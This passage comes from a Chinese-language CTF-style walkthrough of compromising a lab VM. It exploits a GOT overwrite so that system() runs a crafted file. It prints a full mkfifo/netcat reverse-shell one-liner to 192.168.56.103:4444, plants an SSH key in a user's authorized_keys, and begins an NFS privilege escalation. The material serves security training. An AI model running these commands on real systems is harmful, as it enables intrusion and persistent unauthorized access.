 解释下二进制文件使用导致崩溃 sh: 1: Selection:: not found，表示它现在正在尝试运行，由于 GOT 覆盖的是 system("Selection:") 而不是 printf("Selection:")...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuvMTRKrWBKzsR1OvBXssLZlOGNSglWj7rLb56j1FHKZCt8v4DkennEg/640?wx_fmt=png)

是在返回主菜单时调用 printf，当字符串 Selection: 被放置到堆栈上时，它将被传递到 system 调用中...

所以需要创建 mkdir Selection\: 文件... 然后赋予权利...chmod +x Selection\:  

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.103 4444 >/tmp/f' > Selection\:
```

然后写入一个简单的 netcat（不带 - e）...

执行即可....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEutia4TFfom8lMyZVibNb1qnk6ckyEwp13aCFeQJVN19GmibkvuIdnL8wPQ/640?wx_fmt=png)

可以看到成功获得 john 权限... 但是不太稳定... 需要直接进入 john，使用 ssh 生成密匙登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuXlCpI4vyedqfibk3uNSNL9icuBawHRry5tOLLpcd0lATAdy48157kLTA/640?wx_fmt=png)

```
ssh-keygen -t rsa -C john
```

创建好了 ssh 密匙后... 将公钥添加到 john 的授权密钥文件中...（前面章节也讲过）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuLWyXibGfh9hsAMP3fbb5HD34iaZamjznicRS9vN3JAicd2cA0vaicQiaeknQ/640?wx_fmt=png)

写入到 john 的 rsa 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEu9hyKlCmEz68sBe4Ix0y2C77S6rsHht22x5f2L5naOwtQtYpyEAAUbQ/640?wx_fmt=png)

```
chmod 600 authorized_keys  （记得给与权限...)
```

写入后直接登陆即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuMmrcIibFibC5r1k4wvctuVwrrhfAiaaSyAxoDTJhhCWU5ws7xdpcNqfTQ/640?wx_fmt=png)

```
ssh john@192.168.56.139 -i john-key
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEuLhtOEib5Mp9q6GmJIlYvtcHgS2HrDqtzyCzf23sjZibzWYeR1KqVfSEg/640?wx_fmt=png)

成功登陆到 john 用户后，sudo 提权发现 / usr/local/sbin/nfs 目录文件可执行 root... 又是 NFS...

前面讲过很多 NFS 共享目录的事情，直接在本地共享下，创建个 shell，即可提权 root...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP5rYdmpIx7ibZF923tAPIEu1wicCRpuDIbOjniajuyuwjOEgx8qVOm2yRHWqlQTPsh1BwTmibiaqPa8Yw/640?wx_fmt=png)

启动...

```
mount 192.168.56.139:/opt/nfs nfs
```
